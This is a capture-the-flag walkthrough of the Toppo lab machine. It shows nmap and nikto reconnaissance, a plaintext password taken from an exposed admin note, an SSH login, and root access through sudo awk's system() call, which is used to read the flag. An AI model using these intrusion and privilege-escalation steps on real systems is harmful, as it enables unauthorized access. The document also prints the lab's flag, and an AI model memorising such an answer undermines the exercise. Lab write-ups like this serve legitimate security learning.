

Toppo Walkthrough

Description
The Machine isn’t hard to own and don’t require advanced exploitation.
Port scanning
The Nmap scan resulted the following output:
root@kali:~# nmap -A -p 1-65535 192.168.43.85
Starting Nmap 7.70 ( [https://nmap.org](https://nmap.org) )
Nmap scan report for Toppo (192.168.43.85)
Host is up (0.00020s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
| 1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
| 2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
| 256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_ 256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp open http Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100024 1 41588/udp status
|_ 100024 1 53515/tcp status
53515/tcp open status 1 (RPC #100024)
MAC Address: 08:00:27:B1:59:2E (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.20 ms Toppo (192.168.43.85)
Nmap done: 1 IP address (1 host up) scanned in 15.09 seconds
I usually start with the web server on port 80. Using nikto, I found out some interesting things.
root@kali:~# nikto -h 192.168.43.85
- Nikto v2.1.6
--------------------------------------------------------------------
+ Target IP: 192.168.43.85
+ Target Hostname: 192.168.43.85
+ Target Port: 80
--------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
--- snip ---
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7535 requests: 0 error(s) and 15 item(s) reported on remote host
--------------------------------------------------------------------
+ 1 host(s) tested
Alright, looks like I don’t have to run dirb. The admin directory looks pretty interesting to me. There was a notes.txt in there:
Note to myself :
I need to change my password :/ 12345ted123 is too outdated
but the technology isn't my thing i prefer go fishing or watching soccer.
Getting access
Well, that was 2 in 1. I tried to login with with SSH and it was a success.
root@kali:~# ssh ted@192.168.43.85
The authenticity of host '192.168.43.85 (192.168.43.85)' can't be established.
ECDSA key fingerprint is SHA256:+i9tqbQwK978CB+XRr02pS6QPd3evJ+lueOkK1LTtU0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.43.85' (ECDSA) to the list of known hosts.
ted@192.168.43.85's password: 12345ted123
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ted@Toppo:~$
Becoming root
My basic enumeration revealed that I can run the awk command as root, without the password.
ted@Toppo:/$ cat /etc/sudoers
ted ALL=(ALL) NOPASSWD: /usr/bin/awk
I’m not as familiar with awk as I wan to be, but after a little search I was able to run commands as root.
ted@Toppo:/$ awk 'BEGIN{system("whoami")}'
root
Now, let’s go to the root directory…
ted@Toppo:/$ awk 'BEGIN{system("cd /root && ls -la")}'
total 24
drwx------ 2 root root 4096 Apr 15 11:40 .
drwxr-xr-x 21 root root 4096 Apr 15 10:02 ..
-rw------- 1 root root 53 Apr 15 12:28 .bash_history
-rw-r--r-- 1 root root 570 Jan 31 2010 .bashrc
-rw-r--r-- 1 root root 397 Apr 15 10:19 flag.txt
-rw-r--r-- 1 root root 140 Nov 19 2007 .profile
and print out the content of the flag.txt file.
ted@Toppo:/$ awk 'BEGIN{system("cd /root && cat flag.txt")}'
_________
| _ _ |
|_/ | | \_|.--. _ .--. _ .--. .--.
| | / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
_| |_ | \__. | | \__/ | | \__/ || \__. |
|_____| '.__.' | ;.__/ | ;.__/ '.__.'
[__| [__|
Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
So, the final flag is:
0wnedlab{p4ssi0n_c0me_with_pract1ce}
Before you go
If you found this article helpful, please share to help others with similar interest find it! + Feedback and donations are always welcome!